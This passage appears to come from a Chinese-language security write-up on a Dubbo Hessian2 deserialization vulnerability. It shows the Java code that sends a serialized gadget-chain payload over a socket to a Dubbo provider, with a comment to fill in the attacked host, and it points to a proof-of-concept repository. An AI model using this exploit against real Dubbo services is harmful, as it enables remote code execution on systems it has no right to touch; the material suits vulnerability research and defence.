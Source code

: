 ```

Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
byteArrayOutputStream.write(header);
byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
Socket socket = new Socket("127.0.0.1", 20880);
OutputStream outputStream = socket.getOutputStream();
outputStream.write(bytes);
outputStream.flush();
outputStream.close();
```

我这里把gadget chain的demo放在github上，感兴趣的可以clone下来试试：[https://github.com/threedr3am/learnjavabug](https://github.com/threedr3am/learnjavabug)

具体代码位于com.threedr3am.bug.dubbo.JdbcRowSetImplPoc
<li>其它gadget chain<br>
除了rome外，还有其它的gadget chains，例如bcel加载器等等，这里就不写出来了。</li>